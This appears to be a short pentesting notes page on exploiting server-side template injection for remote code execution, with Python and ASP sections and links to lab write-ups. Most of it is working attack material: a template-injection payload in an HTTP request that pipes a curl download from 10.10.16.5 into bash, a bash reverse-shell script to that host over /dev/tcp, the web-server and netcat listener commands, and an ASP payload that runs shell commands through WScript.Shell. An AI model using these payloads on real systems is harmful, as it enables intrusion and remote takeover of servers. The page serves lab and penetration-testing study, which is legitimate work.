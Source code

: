 ```yaml
---
description: >-
  RCE via SSTI
title: RCE via SSTI              # Add title here
date: 2023-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, RCE via SSTI]                     # Change Templates to Writeup
tags: [exploitation, azure, rce, ssti]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

Server-side template injection vulnerabilities can expose websites to a variety of attacks depending on the template engine in question and how exactly the application uses it. In certain rare circumstances, these vulnerabilities pose no real security risk. However, most of the time, the impact of server-side template injection can be catastrophic.

### PYTHON

There are several sources to get SSTI payloads to test such as [payloadbox](https://github.com/payloadbox/ssti-payloads) and [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), this one has a detailed explanation about this vulnerability and a methodology that we can use to test inputs for SSTI abuse.

First we need to inject our payload within the request:
```bash
POST / HTTP/1.1
.
.
costume={{+self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl+http%3a//10.10.16.5 | bash').read()+}}&q=ad&addr=ad
```
Create a script and name it as index.html:
```bash                                                              
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.5/1235 0>&1'
```
Start our python under the same path as index.html to share it:
```bash
sudo python3 -m http.server 80

nc -lvnp 1235
```
Examples:
[Epsilon](https://shuciran.github.io/posts/Epsilon/#fnref:rce-ssti)

### ASP
Another source for SSTI is to be found on [hackingdream](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html) web site, additionally to the python payloads this is interesting because it provides an ASP payload.

It is possible to exploit an ASP SSTI with the following payload:
```bash
<%response.write (7*7)%>
```
If the response reflects a "49" then you can use this payload to get RCE:
```bash
<%response.write CreateObject("WScript.Shell").Exec("cmd /c ping -n 1 10.10.14.4").StdOut.Readall()%>
```
Examples:
[[Anubis#^95c992]]